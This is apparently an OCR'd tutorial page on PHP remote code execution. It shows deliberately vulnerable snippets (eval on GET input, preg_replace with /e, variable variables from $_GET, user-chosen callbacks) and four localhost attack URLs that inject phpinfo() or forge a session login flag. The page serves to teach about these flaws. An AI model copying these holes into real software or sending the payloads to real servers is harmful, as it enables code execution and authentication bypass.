 #### Vulnerable Codes

##### Evaluating eval()

**eval.php**
```php
<?php
$title = $_GET['title'];
eval('echo Welcome '.$title.';');
// assert() also vulnerable
?>
```
##### Regular Expression

**to_upper.php**
```php
<?php
$string = $_GET['string'];
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```
##### Dynamic Variables

```php
<?php
foreach ($_GET as $key => $value) {
	$$key = $value;
}
//extract($_GET);
//parse_str($_GET);

function isLoggedIn(){
	return $_SESSION['isLoggedIn'];
}
if (isLoggedIn()) {
	echo "You are logged in :)";
}
else{
	echo "you are not logged in :(";
	die();
}
?>
```
##### Dynamic Functions

**callback.php**
```php
<?php
$callback = $_GET['callback'];
$arguments = $_GET['arguments'];
function callback($args){
	echo 'function called with arguments';
}
$callback($arguments);
//$func = new ReflectionFunction($callback); $func->invoke($arguments); also same
// create_function also vulnerable // create_function('$foobar', "echo $foobar;");
?>
```
#### Attack
- http://localhost/rce/to_upper.php?string=phpinfo()
- http://localhost/rce/display_title.php?title=vinoth;phpinfo();
- http://localhost/rce/user.php?_SESSION[isLoggedIn]=true
- http://localhost/rce/callback.php?callback=phpinfo&arguments=1
